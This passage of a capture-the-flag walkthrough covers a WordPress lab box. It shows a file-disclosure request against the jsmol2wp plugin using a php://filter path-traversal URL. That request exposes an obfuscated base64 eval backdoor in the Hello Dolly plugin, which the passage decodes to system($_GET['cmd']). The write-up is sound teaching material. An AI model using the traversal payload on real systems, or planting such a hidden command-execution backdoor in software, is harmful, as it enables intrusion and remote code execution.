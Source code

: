 ![Web 80 Wordpress Login](web_80_wordpress_login.webp){: width="1200" height="600"}

As the credentials work, we successfully log in and gain access to the **WordPress** dashboard.

![Web 80 Wordpress Dashboard](web_80_wordpress_dashboard.webp){: width="1200" height="600"}

After accessing the dashboard, we check the pages and find a private page titled `Webmaster Tasks!!`.

![Web 80 Wordpress Pages](web_80_wordpress_pages.webp){: width="1200" height="600"}

Viewing this page reveals a to-do list. One of the items stands out, as it mentions a possible backdoor in the source code of the `Hello Dolly` plugin, which comes pre-installed with the **WordPress** application.

![Web 80 Wordpress Todo](web_80_wordpress_todo.webp){: width="1200" height="600"}

Using the file disclosure vulnerability, we can check the source code for the `Hello Dolly` plugin by making a request to:

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```
{: .wrap }

In the source code, we find an interesting line in the `hello_dolly` function:

```php
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

![Web 80 File Disclosure Hellodolly](web_80_file_disclosure_hellodolly.webp){: width="800" height="600"}

Decoding the `base64` string in the code reveals the mentioned backdoor:

```console
$ echo 'CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=' | base64 -d

 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }
```

Decoding the variable names in the code, we find both of them as `cmd`:

```console
$ php -r 'echo "\143\155\x64" . ":" . "\143\x6d\144";'
cmd:cmd
```

Essentially, the backdoor works as follows:
1. It decodes the `base64` string, resulting in the code we discovered.
2. It executes the decoded code using the `eval` function.
3. The decoded code runs whatever is passed via the `cmd` `GET` parameter using the `system` function.
